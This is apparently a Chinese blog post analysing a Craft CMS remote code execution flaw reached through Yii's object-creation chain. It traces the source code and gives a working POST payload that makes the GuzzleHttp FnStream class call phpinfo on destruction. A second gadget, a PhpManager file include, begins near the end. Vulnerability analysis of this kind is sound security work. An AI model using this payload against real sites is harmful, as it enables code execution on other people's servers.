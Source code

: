 获取变量`$class` ，不管这个值是数组还是字符串，都应该为 ConditionInterface 类的子类，否则直接抛出异常了
Ctrl+Alt+B 就可以看到所有的子类，随便取一个即可
![](https://img-blog.csdnimg.cn/53bfdb7c57884f85a4175f72c4a07948.png)

然后跟进到`yii\BaseYii::configure()`
![](https://img-blog.csdnimg.cn/94251e2c524d4cf5bd8139dc84d8ff68.png)

对一个不存在的成员变量赋值，会调用到`yii\base\Component::__set()`
![](https://img-blog.csdnimg.cn/386707e9bdde48b891865c5d06d7bbed.png)

注意到如果传入的键为`as `开头，就会调用到 createObject 方法
`yii\BaseYii::createObject()`
![](https://img-blog.csdnimg.cn/83b82b08e8554596a6fa52a199e7e871.png)

如果传入的参数存在键`__class`或者`class`，就会执行`static::$container->get($class, $params, $type)`
`yii\di\Container::get()`
![](https://img-blog.csdnimg.cn/ddd5cb8331e2464eaa449927d56896b6.png)

执行build方法进行类的创建，我们能够创建任意对象，并会调用该类的`__construct()`，在对象被销毁时则会调用`__destruct`方法

## 漏洞利用
全局查找`__construct`和`__destruct`，可以查找到所有能利用的类
### FnStream.php
`vendor\guzzlehttp\psr7\src\FnStream.php`

namespace 为 GuzzleHttp\Psr7
![](https://img-blog.csdnimg.cn/d538231f156b465aaaa9c5e16872473e.png)

我们可以对`_fn_close`变量赋值，在销毁时会触发 call_user_func 方法，可以执行phpinfo
![](https://img-blog.csdnimg.cn/a172782117804b4299a9958fdedcd7b7.png)

POST传参：
```json
action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()":[{"close":null}],"_fn_close":"phpinfo"}}
```

### PhpManager.php
`vendor\yiisoft\yii2\rbac\PhpManager.php`

namespace 为 yii\rbac，是一个 require 文件包含
```
yii\base\BaseObject::__construct()
    yii\rbac\PhpManager::init()
        yii\rbac\PhpManager::load()
            yii\rbac\PhpManager::loadFromFile()
```
![](https://img-blog.csdnimg.cn/44b1cec62317466e80a0cb2251e43bb4.png)
